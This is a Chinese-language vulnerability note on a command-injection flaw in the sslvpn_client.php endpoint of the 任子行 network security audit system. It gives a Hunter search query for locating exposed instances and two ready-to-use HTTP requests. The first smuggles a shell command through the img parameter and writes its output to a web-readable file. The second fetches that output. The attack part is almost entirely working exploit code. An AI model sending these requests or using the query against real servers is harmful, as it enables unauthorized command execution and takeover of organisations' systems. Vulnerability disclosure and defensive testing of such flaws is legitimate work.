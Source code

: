 # 任子行网络安全审计系统sslvpn_client存在命令执行漏洞

# 一、漏洞简介
任子行网络安全审计系统sslvpn_client存在命令执行漏洞，攻击者可通过此漏洞获取服务器权限。

# 二、影响版本
+ 任子行网络安全审计系统

# 三、资产测绘
+ hunter`web.title="任子行网络安全审计系统"`
+ 特征

![1701754517024-9650a99f-36cf-4d5b-bb00-72481a181d69.png](./img/NW8qdWbMZsOQJ36m/1701754517024-9650a99f-36cf-4d5b-bb00-72481a181d69-722342.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701754958503-02c63b7d-1e55-430e-bc14-1bfec57ca492.png](./img/NW8qdWbMZsOQJ36m/1701754958503-02c63b7d-1e55-430e-bc14-1bfec57ca492-076513.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701754995310-190a24ff-8343-4b7e-9499-43cb74c7d076.png](./img/NW8qdWbMZsOQJ36m/1701754995310-190a24ff-8343-4b7e-9499-43cb74c7d076-746433.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hqynfpeg5ms3gnkw>